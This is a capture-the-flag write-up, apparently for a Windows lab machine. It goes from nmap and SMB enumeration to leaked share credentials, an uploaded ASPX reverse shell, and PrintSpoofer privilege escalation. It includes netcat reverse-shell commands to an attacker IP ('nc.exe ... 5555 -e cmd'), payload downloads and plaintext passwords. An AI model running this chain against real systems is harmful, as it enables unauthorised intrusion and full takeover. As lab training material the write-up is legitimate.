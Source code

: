 # Relevant

## Scanning

 ```bash
furious 10.10.56.135
nmap -sC -sV -p 80,135,445,139,3389 -n 10.10.56.135 -oN targeted
 ```

![215504.png](215504.png)

## smb

```bash
smbclient -L 10.10.56.135 -N
smbclient -N //10.10.56.135/nt4wrksv
```

![211840.png](211840.png)

![214633.png](214633.png)

```
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123
```

```bash

#download a reverse shell 
wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx

# we enter into the machine tu upload the shell
smbclient //10.10.106.15/nt4wrksv -U 'Bill%Juw4nnaM4n420696969!$$$'
put shell.aspx

# wait with nc
nc -lvp 4444
```

and we enter here http://10.10.106.15:49663/nt4wrksv/shell.aspx

```bat
type C:\Users\Bob\Desktop\user.txt
```

## Escalation privilege

ParrotOS (terminal 1)

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
cp /usr/share/windows-resources/binaries/nc.exe .
sudo impacket-smbserver a .
```

Parrot (Terminal 2)

```bash
# listening on port 5555
rlwrap nc -lvp 5555
```

Windows

```bat
cd C:\Windows\Temp
copy \\10.2.36.179\a\nc.exe .
copy \\10.2.36.179\a\PrintSpoofer64.exe .
PrintSpoofer64.exe -c "nc.exe 10.2.36.179 5555 -e cmd"
```

![005428.png](005428.png)

![002629.png](002629.png)

```bat
type C:\Users\Administrator\Desktop\root.txt
```

![001931.png](001931.png)
